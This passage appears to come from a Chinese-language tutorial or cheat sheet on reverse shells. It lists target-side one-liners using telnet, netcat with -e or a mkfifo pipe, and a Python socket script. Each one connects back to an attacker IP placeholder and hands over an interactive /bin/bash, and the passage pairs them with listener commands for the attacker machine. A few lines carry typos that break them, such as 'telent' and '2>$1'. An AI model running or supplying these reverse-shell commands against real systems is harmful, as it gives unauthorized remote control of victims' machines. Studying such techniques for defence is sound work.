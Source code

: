 目标主机执行：

```bash
telent x.x.x.x port1 | /bin/bash | telnet x.x.x.x port2
```

监听2个端口分别用来输入和输出，其中x.x.x.x均为攻击者ip。

第二种：

攻击机监听：

```bash
nc -lv port
```

目标主机执行：

```bash
rm -f /tmp/a;mknod /tmp/a p;telnet x.x.x.x port 0</tmp/a | /bin/bash 1>tmp/a
```

其中x.x.x.x为攻击机ip。

#### 3. nc(netcat)反弹

攻击机监听：

```bash
nc -lv port
```

目标执行：

```bash
nc -e /bin/bash x.x.x.x port
```

如果目标上没有`-e`参数可以使用以下命令：

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>$1 | nc x.x.x.x port >/tmp/f
```

`mkfifo`的作用是创建FIFO特殊文件，也称为命名管道。FIFO文件在磁盘上没有数据块，仅用来标识内核中的一条通道，各进程可以打开FIFO文件进行读写操作，本质上就是在读写内核通道，这样就可以实现进程间通信。

此外，也可以使用telnet的监听2个端口的方式：

```bash
nc x.x.x.x port1 | /bin/bash | nc x.x.x.x port2
```

#### 4. 常见脚本反弹

下述脚本均需要现在攻击机上开启监听：`nc -lv port`，将脚本中ip替换为对应的攻击机IP，port替换为实际使用的端口。

##### 1. Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
